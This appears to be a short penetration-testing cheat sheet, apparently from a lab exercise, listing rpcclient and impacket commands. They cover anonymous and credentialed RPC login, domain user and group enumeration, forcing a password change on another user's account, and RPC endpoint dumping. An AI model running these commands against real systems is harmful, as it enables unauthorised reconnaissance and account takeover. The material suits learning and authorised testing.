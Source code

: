###### RPC Anonymous login
```
rpcclient -U '' -N ip
```
### RPC credential login
```
rpcclient -U nagoya-industries/svc_helpdesk 192.168.167.21
```
### RPCClient Enum
```
enumdomusers, queryuser, enumlsgroups builtin, enumdomgroups, setuserinfo, chgpasswd,  setuserinfo2
```
### RPC Client Change User Password
```
setuserinfo2 Christopher.Lewis 23 Pass12!
setuserinfo Christopher.Lewis 23 Pass12!
```
### Enum
```
impacket-rpcdump 192.168.219.21 -port 135(135,139,443,445,593)
```
